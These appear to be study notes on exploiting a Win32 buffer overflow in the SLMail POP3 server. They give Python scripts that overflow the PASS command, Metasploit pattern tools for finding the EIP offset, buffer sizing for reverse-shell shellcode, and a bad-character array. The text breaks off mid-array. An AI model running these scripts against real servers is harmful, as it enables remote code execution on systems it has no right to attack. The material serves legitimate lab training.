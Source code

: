 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```

### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-framework/tools/patte_create.rb 2700
        ```

      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.
      ![EIP Overwritten by the Unique Pattern](/images/34.png)
        ```shell
        > /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
        # running resutl :[*] Exact match at offset 2606
        ```

      - The pattern_offset.rb script reports these 4 bytes being located at offset 2606 of the 2700 bytes.
      - Let’s translate this to a new modified buffer string, and see if we can control the EIP register. We modify our exploit to contain the following buffer string

          ```python
          buffer = "A" * 2606 + "B" * 4 + "C" * 90
          ```

          ![EIP is Controlled](/images/35.png)

        - Sending this new buffer to the SLMail POP3 server produces the following crash in our debugger. Once again, take note of the ESP and EIP registers.
        - This time, the ESP has a different value than our first crash. The EIP register is cleanly overwritten by B’s (\x42), signifying that our calculations were correct, and we can now control the execution flow of the SLMail application.

      - Where, exactly, do we redirect the execution flow, now that we control the EIP register?
      - Part of our buffer can contain the code (or shellcode) we would like to have executed by the SLMail application, such as a reverse shell.

### Locating Space for Your Shellcode

  - The Metasploit Framework can automatically generate shellcode payloads.
  - A standard reverse shell payload requires about 350-400 bytes of space.
  - Looking back at the last crash, we can see that the ESP register points directly to the beginning of our buffer of C’s.

  ![ESP is Pointing to the Buffer of C'ʹs](/images/36.png)
  - However, on counting those C’s, we notice that we have a total of 74 of them – not enough to contain a 350-byte payload.
  - One easy way out of this is simply to try to increase our buffer length from 2700 bytes to 3500 bytes, and see if this results in a larger buffer space for our shellcode.

    ```python
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
    ```

  ![Our Increased Buffer Length is Successful](/images/37.png)

### Checking for Bad Characters

  - Depending on the application, vulnerability type, and protocols in use, there may be certain characters that are considered “bad” and should not be used in your buffer, return address, or shellcode.
  - One example of a common bad character (especially in buffer overflows caused by unchecked string copy operations) is the null byte (0x00).
  - This character is considered bad because a null byte is also used to terminate a string copy operation, which would effectively truncate our buffer to wherever the first null byte appears.
  - Another example of a bad character, specific to the POP3 PASS command, is thecarriage return (0x0D), which signifies to the application that the end of the password has been reached.
  - #### An easy way to do this is to send all possible characters, from 0x00 to 0xff, as part of our buffer, and see how these characters are dealt with by the application, after the crash occurs.

  ```python
  #!/usr/bin/python
  import socket
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  ```
